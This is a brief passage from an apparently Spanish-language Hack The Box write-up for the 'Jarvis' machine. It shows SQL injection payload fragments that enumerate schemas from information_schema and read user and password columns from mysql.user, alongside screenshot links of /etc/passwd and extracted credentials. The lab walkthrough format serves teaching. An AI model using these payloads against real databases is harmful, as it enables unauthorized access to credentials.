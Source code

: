 ![asd](/assets/htb/jarvis/etcpasswd.png ) 

`` schema_name from information_schema.schemata limit 2,1 ``
![asd](/assets/htb/jarvis/schema.png )

Existe la tabla mysql, procedemos a obtener datos de ella <br>
`` user FROM mysql.user ``
``password FROM mysql.user ``
![asd](/assets/htb/jarvis/userpass.png )
